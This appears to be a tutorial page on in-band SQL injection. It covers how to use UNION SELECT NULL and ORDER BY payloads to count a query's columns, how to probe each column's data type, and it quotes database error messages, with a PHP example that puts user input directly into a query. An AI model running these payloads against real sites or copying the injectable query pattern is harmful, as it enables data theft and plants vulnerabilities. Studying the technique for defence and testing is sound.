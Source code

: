 # In-band SQLi

The best way to exploit in-band sqli is with the UNION command. However, there are some important things you need to take in account:

* The field types of the second SELECT must match the ones in the first statemement.
* The number of fields in the second SELECT must match the first statement.
* To successfully perform the attack, we need to understand the structure of the database \(tables and columns\).

To solve the first two issues, lets enumerate the number of columns/fields a query selects:

```text
mysql_query("SELECT id, real_name FROM users WHERE id=".$GET['id'].";");
```

The columns and data types are:

* id has data type int
* real\_name has data type varchar \(string\)

In this case, for the second SELECT statement using UNION, if we select more than 2 columns or if the number is correct but the data type is different it will not work and will try to throw an error:

MySQL:

```text
The used SELECT statement have a different number of columns
```

MS SQL:

```text
All queries in an SQL statement containing a UNION operator must have an equal number of expressions in their target list.
```

PostgreSQL:

```text
Each UNION query must have the same number of columns.
```

Oracle:

```text
ORA-01789: query block has incorrect number of result columns.
```

Detecting the number of fields needed to exploit an in-band SQL injection looks like:

```text
> 9999 UNION SELECT NULL; ---
> 9999 UNION SELECT NULL, NULL; ---
> 9999 UNION SELECT NULL, NULL, NULL; ---
> 9999 UNION SELECT NULL, NULL, NULL, NULL; ---

Another example:

> 1111' UNION SELECT NULL; -- -
> 1111' UNION SELECT NULL, NULL; -- -
> 1111' UNION SELECT NULL, NULL, NULL; -- -
> 1111' UNION SELECT NULL, NULL, NULL, NULL; -- -
```

Other way to enumerate fields is to use ORDER BY:

```text
> search=Tom' ORDER BY 1-- -
> search=Tom' ORDER BY 2-- -
> search=Tom' ORDER BY 3-- -
> search=Tom' ORDER BY 4-- -
> search=Tom' ORDER BY 5-- -
> search=Tom' ORDER BY 6-- -
```

For the query to work, the number of NULL fields must match, so we can just keep adding it until the app doesn't throw an error anymore, as the two statements finally will be balanced \(with the same number of fields in both SELECT statements\).

This can be used even when the application does not throw an error when the query is wrong. Generally it will not display anything or the page will be messed up, so you can keep adding NULL to the query til it works.

Now, to discover the datatype of each field, we can simply repeat the same exercise since most DBMS won't allow UNION based queries if the datatype are different, therefore:

```text
> SELECT 1 UNION 'a';
```

Won't work and will trigger an error.

| DBMS | Datatype enforcing |
| :--- | :--- |
| MySQL | No |
| MSSQL | Yes |
| ORACLE | Yes |
| PostgreSQL | Yes |

Now, we:

* Substitute one of the null fields with a constant.
* If the constant type is correct, the query will work
* If the type is wrong, the webapp will throw an error or misbehave

So after finding the number of fields, we change the datatypes:

```text
> 1111' UNION SELECT NULL, NULL; -- -
#Change first field to int
> 1111' UNION SELECT 1, NULL; -- -
#If no errors, change the second field to int
> 1111' UNION SELECT 1, 1; -- -
#If errors, change the second field to string
> 1111' UNION SELECT 1, 'a'; -- -
```

